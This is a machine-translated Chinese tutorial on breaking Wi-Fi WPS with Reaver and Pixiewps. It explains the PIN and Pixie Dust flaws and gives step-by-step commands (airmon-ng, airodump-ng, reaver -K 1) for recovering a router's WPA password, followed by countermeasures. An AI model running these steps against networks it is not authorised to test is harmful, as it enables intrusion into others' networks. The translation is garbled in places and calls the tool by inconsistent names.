






# 掠夺者+pixeiwps——暴力破解 WiFi 路由器 WPS 的工具

> 原文：<https://kalilinuxtutorials.com/reaver-pixewps/>

金甲虫是一个暴力破解 WIFi 路由器 WPS 的工具。PixeWPS 是一个新的工具，可以在 WPS 事务中强行交换密钥。首先，我们来了解一下什么是 WPS

WPS 是受 Wifi 保护的设置，旨在快速轻松地向 AP 认证客户端，主要针对家庭用户。基本上在 WPS 中，接入点和客户端交换一系列 EAP 消息。在这个事务结束时，客户机将获得加密密钥 AP 的签名，这样它就可以连接到加密的网络了。完成后，AP 将与客户端解除关联。然后，客户端重新关联新的凭证和签名。这里需要注意的一件重要事情是，在 WPS 启动期间，实际的密码短语并没有被交换。取而代之的是，使用一个八位数的 pin 进行身份验证。使用这样的 pin，首先对客户端进行身份验证，然后交换实际的密码短语。

2011 年，一位名叫 Stefan vieh bck 的安全研究人员发现了这种实现中的一个缺陷。他提出的概念基于以下事实:

*   在 PIN 的 8 个数字中，最后一个数字是校验和，剩下 7 个数字需要猜测。
*   通过将 PIN 分成两半来验证它。所以前半部分留给 10^4 = 10，000 次猜测，后半部分留给 10^3 = 1000 次猜测。所以总共只有 11000 次猜测，这里应该是 10^8 = 100000000 次猜测。

因此，猜测的次数急剧减少，最终，它可以在更短的时间内被强行破解。掠夺者是一种工具，做的完全一样。它对启用 WPS 的 AP 进行在线攻击，尝试了大约 11000 个 pin。

最近，一位名叫 Dominique Bongard 的安全研究人员发现了一个更新的漏洞。他发现，在两个半针的组成部分缺乏随机性将使离线暴力成为可能。当 PIN 的 2 个一半被交换时，如果这些数据包的组成部分没有被适当地随机化，由 Reaver 生成的真实 PIN 可能被用来执行离线攻击。将来自掠夺者的 PIN 与接收到的哈希进行比对，以确认真实的 PIN。然后，这个 PIN 可以被掠夺者用来对路由器进行在线攻击，以获取真正的密码。

[](http://kalilinuxtutorials.com/wl/reaver-pixewps/attachment/reaver-wpsattack/#main)

Pixie Dust Attack

这种攻击只适用于易受攻击的设备。这种攻击被称为 PixieDust。PixieWPS 是一个工具，它从捕获的散列值中找到 WPS PIN。Pixie WPS 可以单独执行，也可以和更新的金甲虫包一起执行。

[金甲虫主页](http://code.google.com/p/reaver-wps/)

[PixieWPS 主页](https://github.com/wiire/pixiewps/)

参考资料: [维基](https://en.wikipedia.org/wiki/Wi-Fi_Protected_Setup)， [HTG](http://www.howtogeek.com/176124/wi-fi-protected-setup-wps-is-insecure-heres-why-you-should-disable-it/) ，[信息安全学院](http://resources.infosecinstitute.com/wi-fi-security-wps/)

## 选择

因为本教程关注的是金甲虫，所以只显示了金甲虫选项。期权贬值。

```
Required Arguments:
 -i, --interface=<wlan> Name of the monitor-mode interface to use
 -b, --bssid=<mac> BSSID of the target AP

Optional Arguments:
 -m, --mac=<mac> MAC of the host system
 -c, --channel=<channel> Set the 802.11 channel for the interface (implies -f)
 -o, --out-file=<file> Send output to a log file [stdout]
 -a, --auto Auto detect the best advanced options for the target AP
 -v, --verbose Display non-critical warnings (-vv for more)
 -q, --quiet Only display critical messages
 -K --pixie-dust=<number> [1] Run pixiewps with PKE, PKR, E-Hash1, E-Hash2 and E-Nonce (Ralink, Broadcom, Realtek)
 -Z, --no-auto-pass Do NOT run reaver to auto retrieve WPA password if Pixiewps attack is successful
 -h, --help Show help

Advanced Options:
 -p, --pin=<wps pin> Use the specified 4 or 8 digit WPS pin
 -d, --delay=<seconds> Set the delay between pin attempts [1]
 -l, --lock-delay=<seconds> Set the time to wait if the AP locks WPS pin attempts [60]
 -1, --p1-index Set initial array index for the first half of the pin [False]
 -2, --p2-index Set initial array index for the second half of the pin [False]
 -P, --pixiedust-loop Set into PixieLoop mode (doesn't send M4, and loops through to M3) [False]
 -W, --generate-pin Default Pin Generator by devttys0 team [1] Belkin [2] D-Link
```

## 实验室:用掠夺者和皮克斯威普斯破解 WPA2 PSK 网络

#### 方案

攻击者–Kali Linux(Sana)机器(非虚拟机)

目标–Belkin AP

**步骤 1:初始设置**

启动监视器接口，以便开始从空中捕获数据包。

```
Command: service network-manager stop
Command: airmon-ng check
```

杀死干扰进程。对所有过程重复这样做，直到 airmon-ng 检查给出“无干扰”输出。

```
Command:  kill -9  <pid>
```

启动监视器界面。

```
Command: airmon-ng check
Command: iwconfig
command: airmon-ng start wlan0 <replace with yours>
```

[](http://kalilinuxtutorials.com/wl/reaver-pixewps/attachment/reaver1/#main)

Reaver Initial Setup

[](http://kalilinuxtutorials.com/wl/reaver-pixewps/attachment/reaver2/#main)

Reaver Initial Setup

**第二步:开始捕捉&选择目标。**

Airodump 转储监视器接口上收到的数据包。我们可以选择是否将数据包写入文件。在不久的将来会有一个完整的教程。

```
command: airodump-ng wlan0mon <replace with yours>
```

[](http://kalilinuxtutorials.com/wl/reaver-pixewps/attachment/reaver3/#main)

Starting Capture

执行 Airodump 实际上将终端变成显示所有信息的更新终端。记下目标 BSSID、通道和 ESSID。按 control+c 停止 airodump。

用相关信息运行掠夺者。

```
command: reaver -i wlan0mon <replace with yours> -b <bssid> -c <channel no> -K 1 -vv
```

[](http://kalilinuxtutorials.com/wl/reaver-pixewps/attachment/reaver4/#main)

Capture & Reaver Output

从上图我们可以得到我们目标的 MAC。记下这一点，然后运行金甲虫。

[](http://kalilinuxtutorials.com/wl/reaver-pixewps/attachment/reaver5/#main)

Pixie Output

这就是密码和个人识别码。因此，这是一种离线和在线相结合的攻击，可以在无线渗透测试期间针对无线接入点运行。有趣的是，PixieWPS 发现了许多其他信息，如 AP 的型号、制造商等。因此，在测试期间，可以使用它来搜索特定 AP 的已知漏洞。

为获得最佳攻击性能，请使用 Alfa Network AWUS036NH 或类似型号。

相关视频:[https://vimeo.com/126489367](https://vimeo.com/126489367)

## 对策

先想想为什么会有这样针对我们的攻击，再想想是不是真的有必要用 RPG 来杀老鼠。以下是一些对策:

1.  禁用 WPS:分析你的无线接入点是否需要使用 WPS。
2.  增加超时时间:对于高级路由器，我们可以增加接收超时时间来减缓攻击
3.  WPS 锁:将 WPS 锁时间设置为一个较大的值
4.  MAC 过滤:当然是老狗，但有时可以防止脚本小子。
5.  从物理上保护路由器